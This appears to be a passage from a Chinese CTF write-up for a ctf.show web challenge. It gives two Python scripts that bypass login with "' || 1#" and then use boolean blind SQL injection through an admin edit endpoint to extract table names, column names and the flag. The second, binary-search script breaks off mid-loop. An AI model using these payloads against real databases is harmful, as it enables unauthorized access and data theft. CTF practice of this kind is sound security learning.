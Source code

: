 ```php
}
```

主要是 update() 注入，可用布尔盲注的方法，python 脚本如下：

```python
import requests
import time
import string
url="http://b1a7ce54-f86c-4f7e-8cdb-047458239bad.challenge.ctf.show"
s=string.ascii_lowercase+string.digits+",{-}"
sess=requests.session()
sess.post(url+"?action=check",data={"username":"1'||1#","password":1})
flag=""
for i in range(9,70):
        print(i)
        for j in s:
            data={
            'nickname':str(i*2)+str(j), #不让nickname重复就行
            #'user[username]':"1'||if(ascii(substr((select  group_concat(table_name) from information_schema.tables where table_schema=database()),{0},1))={1},1,0)#".format(i,j)
            #'user[username]':"1'||if(substr((select  group_concat(column_name) from information_schema.columns where table_name='flagyoudontkNow76'),{0},1)='{1}',1,0)#".format(i,j)
            'user[username]':"1'||if(substr((select  flagisherebutyouneverkNow118 from flagyoudontkNow76),{0},1)='{1}',1,0)#".format(i,j)
            }
            r=sess.post(url+"/api/admin_edit.PHP",data=data)
            if("u529f" in r.text):
                flag+=j
                print(flag)
                break
```

二分法：

```python
import requests
import random

url1='http://b1a7ce54-f86c-4f7e-8cdb-047458239bad.challenge.ctf.show/api/admin_edit.php'
url2="http://b1a7ce54-f86c-4f7e-8cdb-047458239bad.challenge.ctf.show/index.php?action=check"
data={
    "username":"' || 1#",
    "password":1
}
session=requests.session()
session.post(url=url2,data=data)

flag=''
for i in range(1,100):
    min=32
    max=128
    while 1:
        mid=min+(max-min)//2
        if min==mid:
            flag+=chr(mid)
            print(flag)
            if chr(mid)=='}':
                exit()
            break

        #payload="' or if(ascii(substr((select/**/group_concat(table_name)from(information_schema.tables)where(table_schema=database())),{},1))<{},1,0)#".format(i,mid)
        #payload="' or if(ascii(substr((select/**/group_concat(column_name)from(information_schema.columns)where(table_name='flagyoudontknow76')),{},1))<{},1,0)#".format(i,mid)
```